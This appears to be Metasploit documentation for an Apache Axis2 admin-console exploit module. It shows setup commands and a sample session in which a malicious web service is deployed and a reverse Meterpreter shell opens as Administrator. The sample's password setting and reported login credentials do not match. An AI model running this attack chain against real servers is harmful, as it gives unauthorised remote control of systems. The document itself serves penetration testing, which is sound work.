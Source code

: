 ## Description

This module logs in to an Axis2 Web Admin Module instance using a specific user/pass and uploads and executes commands via deploying a malicious web service by using SOAP.

## Axis2 Web Admin

The Apache Axis2 Web application has three main sections:'Services' lists all the available services deployed in this server, 'Validate' checks the system to see whether all the required libraries are in place and views the system information, and 'Administration' is the Axis2 Web Administration module which is the console for administering the Apache Axis2 installation. The Axis2 Web Administration module provides a way to configure Axis2 dynamically.

**IMPORTANT:** This dynamic configuration will NOT be persistent, i.e., if the servlet container is restarted, then all the dynamic configuration changes will be lost.

## Verification Steps

1. Do: ```use exploit/multi/http/axis2_deployer```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 10.10.155.37
RHOST => 10.10.155.37
msf exploit(axis2_deployer) > set RPORT 8080
RPORT => 8080
msf exploit(axis2_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(axis2_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(axis2_deployer) > show options

Module options (exploit/multi/http/axis2_deployer):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  admin123         no        The password for the specified username
   PATH      /axis2           yes       The URI path of the axis2 app (use /dswsbobje for SAP BusinessObjects)
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.155.37     yes       The target address
   RPORT     8080             yes       The target port
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            no        The username to authenticate as
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java

msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 10.10.155.39:4444 
[+] http://10.10.155.37:8080/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
[*] Successfully uploaded
[*] Polling to see if the service is ready
[*] Sending stage (30355 bytes) to 10.10.155.37
[*] Meterpreter session 3 opened (10.10.155.39:4444 -> 10.10.155.37:1750) at 2017-03-26 23:33:19 -0500

[*] NOTE: You will need to delete the web service that was uploaded.

[*] Using meterpreter:
[*] rm "webapps/axis2/WEB-INF/services/mdLFvgMv.jar"

[*] Using the shell:
[*] cd  "webapps/axis2/WEB-INF/services"
[*] del mdLFvgMv.jar


meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.10.155.37 - Meterpreter session 3 closed.  Reason: User exit

```
